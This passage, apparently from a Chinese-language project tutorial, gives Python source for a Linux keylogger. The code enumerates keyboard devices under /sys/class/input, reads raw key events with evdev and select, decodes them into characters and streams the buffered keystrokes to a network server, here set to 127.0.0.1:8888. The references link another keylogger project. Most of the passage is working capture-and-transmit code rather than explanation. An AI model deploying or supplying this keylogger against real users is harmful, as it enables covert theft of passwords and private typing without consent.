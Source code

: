 ```python
          找出所有的键盘设备名
      """
      # 切换到/sys/class/input/这个目录下，类似cd命令
      os.chdir(DEVICES_PATH)
      result = []
      # 遍历/sys/class/input/下的所有的目录
      for each_input_dev in os.listdir(os.getcwd()):
          # 找到设备信息相关的文件
          dev_path = DEVICES_PATH + each_input_dev + '/device/name'
          # 如果这个设备是键盘设备
          if(os.path.isfile(dev_path) and device_filter_func(file(dev_path).read())):
              result.append('/dev/input/' + each_input_dev)
      if not result:
          print("没有键盘设备")
          # 直接结束该进程
          sys.exit(-1)
      return result
      
  def monitor_keyboard(devs):

    # 将名映射到inputDevice对象
    devices = map(InputDevice, devs)
    # dev.fd一个文件描述符， 然后建立一个字典
    devices = {dev.fd: dev for dev in devices}
    return devices
```
#### 5.2.2 使用`evdev`获取键盘输入的数据
在这里我们使用`evdev`库来获取原始的键盘数据，在这里我们使用`select`库来监听键盘的状态，若有输入时，readers返回键盘的文件描述符，evdev把键盘的输入转化为多个`event`对象。在这里只需要筛选类型为`EV_KEY`的键盘输入event对象即可。库的使用说明可以参考官方[文档][evdev_doc]
```python
def linux_thread_func(file_name, file_type, content_handler, seconds=10):
      # 获取键盘设备
      devices = monitor_keyboard(find_keyboard_devices(device_filter))
      # 维护shift和caps状态， 对evdev库的event对象进行解析
      dec = decode_character()
      # 连接到指定的服务器
      # 运行 python server.py 可产生一个本地的服务
      server_instance = NetworkClient({"IP": "127.0.0.1", "PORT": 8888})
      # 传输一个文本传输的任务
      text_task = NetworkTaskManager(server_instance, file_type, file_name)
      hook_handler = [None, ]
      # 缓冲区处理, 关联网络文本传输任务
      char_handler = content_handler(text_task.send_content, hook_handler, seconds)

      now_t = time.time()
      while True:
          if int(time.time() - now_t) >= seconds:
              break
          # select 是监听文件描述符的一个库，监听当前所有的键盘设备
          readers, writes, _ = select(devices.keys(), [], [])
          # readers可能有多个键盘设备，所以是一个数组结构
          for r in readers:
              # 键盘有输入操作
              events = devices[r].read()
              for event in events:
                  if event.type == ecodes.EV_KEY:
                      # 转化为自定义的event对象，多了type, status_code属性
                      cus_event = CusKeyEvent(event)
                      # 对event进行解析
                      ret_char = dec(cus_event)
                      if ret_char:
                          # 将当前字符加入到缓存区，并执行相关的缓冲区操作
                          char_handler(ret_char)
```

[CHAR_NODE]: http://blog.jobbole.com/86531/
[x11]: https://github.com/amoffat/pykeylogger
[commands]: http://blog.csdn.net/dbanote/article/details/9414133
[devices_file]: http://tieba.baidu.com/p/1853607526
[example]: http://7xqdxb.com1.z0.glb.clouddn.com/tickets7.png
[device_info]: 设备信息截图
[evdev_doc]: http://python-evdev.readthedocs.io/en/latest/tutorial.html#listing-accessible-event-devices
[status_manager]: 状态管理截图
[decode_input]: 原始数据和解码后的截图
[multiprocess]: http://python.jobbole.com/82045/
[result]: /images/result.png